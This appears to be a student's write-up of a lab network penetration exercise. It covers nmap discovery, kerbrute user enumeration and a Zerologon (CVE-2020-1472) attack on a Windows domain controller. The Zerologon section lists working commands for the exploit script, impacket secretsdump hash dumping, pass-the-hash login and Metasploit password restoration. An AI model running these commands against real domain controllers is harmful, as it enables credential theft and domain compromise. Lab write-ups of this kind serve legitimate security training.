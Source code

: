 * this text will be replaced
{:toc}

## Overview
---
In this environment I was given the vpn profile to connect to the network and I had to hack the network using my own Kali VM. I had no information about the network. Only that the subnet was 172.16.199.0/24, and that there was a website I had to visit in order to input codes that I get from each of the vulnerable machines. There were some struggles and bugs that held me back, but with the help of my mentor, Derrick Tran, I was told what would've happened if things worked properly. 

Because I'm lazy there won't be any pictures, but I will describe my thought process and actions as much as I can. Keep in mind I did this environment a while ago and this is all based off memory (which mine sucks).

## Windows (172.16.199.112)
---
I first did a host discovery scan by doing "nmap -sn 172.16.199.0/24" this quickly gave me the hosts 172.16.199.112 (windows), 172.16.199.10 (linux), and 172.16.199.1 (the router which is out of scope). I was given 172.16.199.113 (desolator) because no matter what I did, it didn't show up as an ip address. 

Some services the windows computer had was 
1. http server
2. ftp server
3. SSH for windows?
4. SMB (I think)
5. Typical windows service (ldap, rpc, kerberos, etc.)

Because this is a windows machine, I tried to enumerate users using a tool called kerbrute. This tool uses a dictionary attack to enumerate users over kerberos. This enumeration yeilded nothing because the usernames were unordinary and weren't in the SecLists wordlists

I also tried enumerating subdomains and directories for the website, but nothing showed up. As a result, I figured the vulnerability had to be within ther services itself. 

### Zerologon
This was a last resort exploit that I performed due to the actual path being bugged. I'm writing what worked first and what should've happened last. 

In actual engagements, you should'nt perform zerologon because it actually breaks the DC a bit. This is something you use the tester sciript only and note it rather than using to gain access. 

Exploiting zerologon is very easy. I first used the zerologon tester from SecuraBV's zerologon tester. After verifying that the machine is vulnerable, I ran the script from dirkjanm's github. 

~~~bash
#The netbios name was quite random. It was like WIN####### which to me is unusual, but it can be found with an nmap scan. 
python3 zerologon_tester.py (NetBIOS name) 172.16.199.112

#Exploit script:
python3 cve-2020-1472-exploit.py (NetBIOS name) 172.16.199.112
impacket-secretsdump -no-pass -just-dc (NetBIOS)\$@172.16.199.112

#Password recovery: (hash is just an example)
impacket-secretsdump Administrator@172.16.199.112 -hashes aad3b435b51404eeaad3b435b51404ee:dfea5bffeee342a017c42b371af23151
#Copy the hexhash and open metasploit
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
set action restore
set nbname (netbios name)
set rhosts 172.16.199.112
run
#With this you should've successfully reset all the passwords correctly. 
~~~